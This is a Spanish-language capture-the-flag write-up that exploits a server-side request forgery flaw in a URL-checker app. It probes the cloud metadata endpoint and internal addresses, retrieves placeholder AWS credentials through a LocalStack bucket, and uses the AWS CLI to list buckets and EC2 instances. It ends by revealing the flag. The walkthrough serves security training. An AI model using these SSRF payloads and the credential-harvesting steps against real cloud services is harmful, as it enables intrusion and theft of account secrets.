 #### **Paso 1: Analizar**
- Accede a la aplicación en `http://34.51.13.20:8080/`.
- Observa que hay un formulario que permite ingresar una URL y verificar su contenido.
- Este ultimo es vulnerable a Server-Side Request Forgery (SSRF)
- En el URL checker, ponermos http://169.254.169.254/latest/meta-data/ lo que comunmente es el vector de entrada de esta vuln.
- Al acceder nos da la siguiente pista
  
  ![image](https://github.com/user-attachments/assets/07ee8a90-8731-41e3-9f2c-895f4c3673f4)



#### **Paso 2: Identificar la vulnerabilidad**
- Sospecha que la aplicación puede ser vulnerable a **Server-Side Request Forgery (SSRF)** porque toma una URL ingresada por el usuario y hace una solicitud HTTP a esa URL.
- Para confirmar, intenta acceder a recursos internos, como:
  - `http://localhost:8080` (la propia aplicación).
  - `http://127.0.0.1:8080` (alternativa a localhost).
  - `http://34.51.13.20:8080/latest/meta-data/` (el servicio de metadata simulado en la aplicación).

#### **Paso 3: Confirmar el SSRF**
- Ingresa la URL `http://34.51.13.20:8080/latest/meta-data/` en el formulario.
- Si la aplicación devuelve información del servicio de metadata de AWS, confirma que es vulnerable a SSRF.

---

### **2. Explotación**

Una vez confirmada la vulnerabilidad, el pentester explota el SSRF para obtener credenciales de AWS.

#### **Paso 1: Obtener credenciales de AWS**
- Ingresa la URL del servicio de metadata de AWS en el formulario:
  ```
  http://34.51.13.20:4566/bucket-ahau-yucatan/users.txt
  ```
- La aplicación devuelve las credenciales en formato JSON:
  ```json
  {
      "AccessKeyId": "test",
      "SecretAccessKey": "test",
      "Token": "test",
      "Region": "us-east-1"
  }
  ```

#### **Paso 2: Configurar las credenciales**
- Usa las credenciales obtenidas para configurar el entorno de AWS CLI:
  ```bash
  export AWS_ACCESS_KEY_ID=test
  export AWS_SECRET_ACCESS_KEY=test
  export AWS_SESSION_TOKEN=test
  export AWS_DEFAULT_REGION=us-east-1
  ```

---

### **3. Post-Explotación**

Con las credenciales en mano puedes interactúa con los servicios de AWS (LocalStack) para encontrar la bandera.

#### **Paso 1: Listar los buckets de S3**
- Usa el siguiente comando para listar los buckets en S3:
  ```bash
  aws --endpoint-url=http://34.51.13.20:4566 s3 ls
  ```
- Observa que hay un bucket llamado `secret-bucket-challenge`.

#### **Paso 2: Listar los archivos en el bucket**
- Usa el siguiente comando para listar los archivos en el bucket:
  ```bash
  aws --endpoint-url=http://34.51.13.20:4566 s3 ls s3://secret-bucket-challenge/
  ```
- Observa que hay un archivo llamado `flag.txt`.

### **Paso 3: Listar las instancias EC2**  

1. Ver las instancias EC2 ejecutando el siguiente comando:  

   ```bash
   aws --endpoint-url=http://34.51.13.20:4566 ec2 describe-instances \
     --query "Reservations[*].Instances[*].Tags[?Key=='Name'].Value" \
     --output text
   ```

2. La bandera es el nombre de la instancia encontrada:  

   ```
   FEMEC_Pentester_Cloud_AHAU
   ```

---


By M0r0k0
